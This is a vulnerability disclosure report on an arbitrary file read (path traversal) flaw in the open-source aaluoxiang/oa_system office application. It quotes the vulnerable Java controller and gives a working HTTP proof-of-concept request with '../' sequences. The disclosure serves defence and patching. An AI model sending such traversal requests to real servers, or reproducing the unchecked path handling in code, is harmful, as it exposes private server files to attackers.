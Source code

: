 # Vulnerability Description

The open source OA office automation system [aaluoxiang/oa_system](https://gitee.com/aaluoxiang/oa_system) has an API with an arbitrary file read vulnerability (route is "image/**"), which allows attackers to read files in any path on the server, resulting in sensitive information leakage.

- Vulnerability Discloser: [Honor Cyber Security Lab](https://github.com/honorseclab)

- Vendors: [aaluoxiang/oa_system](https://gitee.com/aaluoxiang/oa_system)

- Source code address：[aaluoxiang/oa_system](https://gitee.com/aaluoxiang/oa_system)

Note: 

- **This vulnerability was discovered automatically by my AI code audit tool**.

- Since the author has not released a release package, the version number cannot be determined. The author's latest commit is 2024-08-15. I downloaded the latest code of this project on 20250528 and found the vulnerability.

# Vulnerability Analysis

The vulnerability code entry point is located at：

- [(https://gitee.com/aaluoxiang/oa_system/blob/master/src/main/java/cn/gson/oasys/controller/user/UserpanelController.java#L235](https://gitee.com/aaluoxiang/oa_system/blob/master/src/main/java/cn/gson/oasys/controller/user/UserpanelController.java#L235)

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
// src\main\java\cn\gson\oasys\controller\user\UserpanelController.java:image
    @RequestMapping("image/**")
	public void image(Model model, HttpServletResponse response, @SessionAttribute("userId") Long userId, HttpServletRequest request)
			throws Exception {
		String projectPath = ClassUtils.getDefaultClassLoader().getResource("").getPath();
		System.out.println(projectPath);
		String startpath = new String(URLDecoder.decode(request.getRequestURI(), "utf-8"));
		String path = startpath.replace("/image", "");   // <-------
		File f = new File(rootpath, path);  // <-------
		ServletOutputStream sos = response.getOutputStream();
		FileInputStream input = new FileInputStream(f.getPath());
		byte[] data = new byte[(int) f.length()];
		IOUtils.readFully(input, data);
		// 将文件流输出到浏览器
		IOUtils.write(data, sos);
		input.close();
		sos.close();
	}
```
As you can see, this interface uses the value of the URI (request.getRequestURI()) that is fully controllable by the outside world as part of the path of the server file to be read. Since no security verification is done, attackers can construct malicious file paths through "../" to read sensitive files on the server across directories.

# Vulnerability Verification

Please deploy the project code and test environment locally according to the instructions in the Readme.md file provided by the author. Then visit the login page through http://ip:8088, log in with the default account and password, and obtain a valid "JSESSIONID" request header.

The vulnerability proof of concept (POC) is as follows:

```js
GET /image/image/../../image/passwd.txt HTTP/1.1
Host: 192.168.17.108:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://192.168.17.108:8088/index
Cookie: JSESSIONID=39BCE66CED9A96370B62B1DAF08FB164
Upgrade-Insecure-Requests: 1
Priority: u=4
```

Below are two screenshots of the verification of this path traversal vulnerability after I deployed the environment on my own Windows machine：
![图片](https://github.com/user-attachments/assets/c93f3567-5066-44a7-bc16-8df2c3f0c653)
![图片](https://github.com/user-attachments/assets/d7235549-ed96-4f4f-aee0-b48d548722e0)

# Security Suggestions

Check the legitimacy of the URI passed by the front end and limit illegal characters such as "../".
